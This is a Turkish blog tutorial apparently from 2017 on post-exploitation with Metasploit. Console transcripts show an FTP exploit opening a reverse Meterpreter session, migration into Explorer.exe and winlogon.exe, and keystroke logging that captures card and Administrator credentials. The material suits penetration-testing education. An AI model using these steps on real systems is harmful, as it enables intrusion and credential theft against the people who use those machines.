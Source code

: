 ```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcılık Sağlama'
date: '2017-06-15T13:54:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.' 
 
url:  /tr/msf-meterpreter-kalicilik-saglama/ 
post_views_count:
    - '0'
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Kalıcılık Sağlama



Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.



Bazı durumlarda, hedef üzerinde yaptığınız çalışmalar sistemi kararsız hale getirebilir. Sistemin tekrar başlatılması gerektiğinde bağlantınız da kopacaktır. Bu gibi durumlar için, hedef sisteme tekrar bağlanmanın kolay bir yolunu oluşturmak faydalı olacaktır.



Kalıcılık sağlamak için sistem hakkında kullanıcı bilgileri, token bilgileri, hash bilgileri ve bağlı olduğu diğer alt ağların keşfi ileride kullanım için oldukça fayda sağlamaktadır.



Bilgi toplamanın bir yöntemi de keylogger olarak ifade edilen yöntemdir.



## Metasploit içinde Keylogger Kullanımı



Bir sisteme giriş sağlandığında iki yaklaşım sergileyebilirsiniz. Çok hızlı olmak veya çok yavaş olmak. Keylogger, yani kullanıcının tuşlarını ve yazdıklarını kaydetmek, yavaş yaklaşıma bir örnektir. Bu yaklaşımda, gerçekleştirmek istediğiniz işlemleri çok hızlı yapamazsınız ancak uzun vadede çok kullanışlı bilgiler elde edebilirsiniz.



Öncelikle, bir exploit modülü kullanarak hedef sistemde oturum çalım.


```bash
msf exploit**(**warftpd_165_user**)** **&gt;** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Connecting to FTP server 172.16.104.145:21...
**[*********]** Connected to target FTP server.
**[*********]** Trying target Windows 2000 SP0-SP4 English...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** Meterpreter session 4 opened **(**172.16.104.130:4444 -&gt; 172.16.104.145:1246**)**

meterpreter **&gt;**
```



Oturum açıldıktan sonra, tuşları kayıt etmek için `Explorer.exe` prosesine geçmek başarı için daha garanti bir yoldur. Hedef sistemde `Explorer.exe` uygulaması, hangi PID numarasıyla çalışıyor öğreniyoruz ve `migrate` komutuyla geçiş yapıyoruz.


```bash
meterpreter **&gt;** ps

Process list
**============**

    PID   Name               Path                                                   
    ---   ----               ----                                                   
    140   smss.exe           \SystemRoot\System32\smss.exe                          
    188   winlogon.exe       ??\C:\WINNT\system32\winlogon.exe                     
    216   services.exe       C:\WINNT\system32\services.exe                         
    228   lsass.exe          C:\WINNT\system32\lsass.exe                            
    380   svchost.exe        C:\WINNT\system32\svchost.exe                          
    408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                          
    444   svchost.exe        C:\WINNT\System32\svchost.exe                          
    480   regsvc.exe         C:\WINNT\system32\regsvc.exe                           
    500   MSTask.exe         C:\WINNT\system32\MSTask.exe                           
    528   VMwareService.exe  C:\Program Files\VMwareVMware Tools\VMwareService.exe 
    588   WinMgmt.exe        C:\WINNT\System32\WBEMWinMgmt.exe                     
    664   notepad.exe        C:\WINNT\System32\notepad.exe                          
    724   cmd.exe            C:\WINNT\System32\cmd.exe                              
    768   Explorer.exe       C:\WINNT\Explorer.exe                                  
    800   war-ftpd.exe       C:\Program Files\War-ftpd\war-ftpd.exe                 
    888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe    
    896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe    
    940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe           
    972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe 
    1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe 

meterpreter **&gt;** migrate 768
**[*********]** Migrating to 768...
**[*********]** Migration completed successfully.
meterpreter **&gt;** getpid
Current pid: 768
```



PID geçişini kontrol ettikten sonra keylogger işlemini başlatalım.


```bash
meterpreter **&gt;** keyscan_start
Starting the keystroke sniffer...
meterpreter **&gt;** keyscan_dump
Dumping captured keystrokes...
   tgoogle.cm my credit amex   myusernamthi     amexpasswordpassword
```



Bir miktar süre geçtikten sonra kayıt dosyasını görmek için `keyscan_dump` komutunu kullanabilirsiniz. Yakalanan tuş vuruşlarını incelediğinizde, CTRL veya ALT gibi tuşların log dosyasına nasıl kayıt edildiğini de öğrenebilirsiniz.



Ayrıca, oturum açma bilgilerini de yakalamak isterseniz, `Explorer.exe` yerine `migrate` komutuyla, `winlogon` prosesine geçebilirsiniz.


```bash
meterpreter **&gt;** ps

Process list
**=================**

PID Name         Path
--- ----         ----
401 winlogon.exe C:\WINNT\system32\winlogon.exe

meterpreter **&gt;** migrate 401

**[*********]** Migrating to 401...
**[*********]** Migration completed successfully.

meterpreter **&gt;** keyscan_start
Starting the keystroke sniffer...
```



Kayıt esnasında bir Administrator kullanıcı oturumu açılmıştır. Sonucuna bakalım.


```bash
meterpreter **&gt;** keyscan_dump
Dumping captured keystrokes...
Administrator ohnoes1vebeenh4x0red!
```



Görüldüğü gibi, oturum açan kullanıcı “Administrator” ve parolası “ohnoes1vebeenh4x0red!” olarak tespit edilmiştir.
